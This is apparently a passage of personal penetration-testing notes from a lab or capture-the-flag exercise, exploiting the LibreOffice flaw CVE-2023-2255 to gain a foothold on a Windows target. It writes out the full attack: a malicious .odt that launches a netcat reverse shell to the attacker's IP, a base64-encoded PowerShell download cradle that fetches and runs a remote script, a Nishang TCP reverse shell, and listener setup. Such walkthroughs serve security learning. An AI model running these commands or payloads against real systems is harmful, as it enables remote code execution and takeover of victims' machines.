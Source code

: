 ```
---OUTPUT-VERSION---
MsiProductVersion=7.4.0.1
```
- On searching google we find
	- https://github.com/elweth-sec/CVE-2023-2255
	- We exploit the script.
	- Two ways:
		- Netcat
			- Make sure you win-rm on the location where the files you need are at or specify the full path:
			```bash
---ON-LOCAL-MACHINE---
cd CVE-2023-2255
python3 CVE-2023-2255.py --cmd "cmd.exe /c C:\ProgramData\nc.exe -e cmd.exe 10.10.14.25 9999" --output exploit.odt
cp exploit.odt ../
cd ..
cp cp /usr/share/windows-resources/binaries/nc.exe .
nc -lvnp 9999
---ON-TARGET---
cd "C:\programdata"
upload nc.exe
cd "C:\Important Documents"
upload exploit.odt
```
			- We gain localadmin user access
	- Create a cradle
		- The basic idea is we create a script that calls to download our reverse shell and execute it
			- That script which is our payload (which calls our actual payload from our local machine) is called a cradle
			- We encrypt it using utf-16le and base64 for windows to read it more easily
		```bash
vi cradle
> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.25:8001/shell.ps1')
cat cradle | iconv --to-code utf-16le |base64 -w 0

---OUTPUT---
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIANQA6ADgAMAAwADEALwBzAGgAZQBsAGwALgBwAHMAMQAnACkACgA=
```
		- Say we get a response on http server but no reverse shell
			- Could imply AntiVirus at play 
- Then we execute our exploit (we use TCP One Liner reverse shell script)
	```bash
cp /opt/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1 shell.ps1
vi shell.ps1 # edit to put our ip and port ($client...)
python3 -m http.server 8001
```
	- We create our exploit and open our netcat listener
		```bash
cd CVE-2023-2255
python3 CVE-2023-2255.py --cmd "cmd /c powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIANQA6ADgAMAAwADEALwBzAGgAZQBsAGwALgBwAHMAMQAnACkACgA=" --output exploit2.odt
cp exploit2.odt ../exploit2.odt
nc -lvnp 9998
```
	- And then we upload it on our target:
		```bash
cd "C:\Important Documents"
upload exploit2.odt
```
```